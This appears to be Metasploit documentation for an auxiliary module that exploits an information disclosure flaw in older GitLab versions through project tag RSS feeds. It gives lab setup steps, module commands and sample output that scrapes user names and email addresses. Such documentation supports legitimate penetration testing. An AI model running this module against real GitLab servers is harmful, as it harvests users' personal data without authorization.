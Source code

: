 ## Vulnerable Application

Information disclosure affecting all versions of GitLab
before 16.6.6, 16.7 prior to 16.7.4, and 16.8 prior to 16.8.1
by sending a GET request to the project URI and appending "-/tags"

### Docker installation instructions can be found here:

https://docs.gitlab.com/ee/install/docker.html

Once installed, create a project. Once the project is
created, add a new tag by expanding the Code menu item
on the left, then selecting Tags. Then click on the 
New Tag button in the top right corner.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `set RHOSTS [IP]`
1. Do: `run`
1. You should receive output with user names and email addresses assocaited with project tags

## Options

### TARGETPROJECT

This will gather information for ALL PUBLICLY ACCESSIBLE PROJECTS. IF you know the specific project you would
like to target, you would need to set that here.

## Scenarios
### Scrape all Workspaces/Projects
```
msf6 > use auxiliary/gather/gitlab_tags_rss_info_disclosure 
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > run
[*] Running module against 127.0.0.1

[+] [2024.02.09-11:18:23] Scraping ALL projects...
[*] [2024.02.09-11:18:23] Check RSS tags feed for: Workspace1/Project1
[+] [2024.02.09-11:18:23] Output saved to /root/.msf4/loot/20240209111823_default_127.0.0.1_gitlab.RSS.info__010524.xml
[+] [2024.02.09-11:18:23] name: john doe
[+] [2024.02.09-11:18:23] e-mail: johndoe@example.com
[*] [2024.02.09-11:18:23] Check RSS tags feed for: Workspace1/Project2
[+] [2024.02.09-11:18:23] Output saved to /root/.msf4/loot/20240209111823_default_127.0.0.1_gitlab.RSS.info__822263.xml
[+] [2024.02.09-11:18:23] name: janedoe
[+] [2024.02.09-11:18:23] e-mail: janedoe@example.com
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws2/proj1
[-] [2024.02.09-11:18:23] No tags or authors found
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws3/proj1
[-] [2024.02.09-11:18:23] No tags or authors found
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws3/proj2
[-] [2024.02.09-11:18:23] No tags or authors found
[*] Auxiliary module execution completed
```
### Specify Project
```
msf6 > use auxiliary/gather/gitlab_tags_rss_info_disclosure 
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set RHOSTS 127.0.0.1     
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set TARGETPROJECT Workspace1/Project1
TARGETPROJECT => Workspace1/Project1
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > run
[*] Running module against 127.0.0.1

[*] [2024.02.09-11:44:43] Check RSS tags feed for: Workspace1/Project1
[+] [2024.02.09-11:44:43] Output saved to /root/.msf4/loot/20240209114443_default_127.0.0.1_gitlab.RSS.info__390983.xml
[+] [2024.02.09-11:44:43] name: janedoe
[+] [2024.02.09-11:44:43] e-mail: janedoe@example.com
[*] Auxiliary module execution completed
```
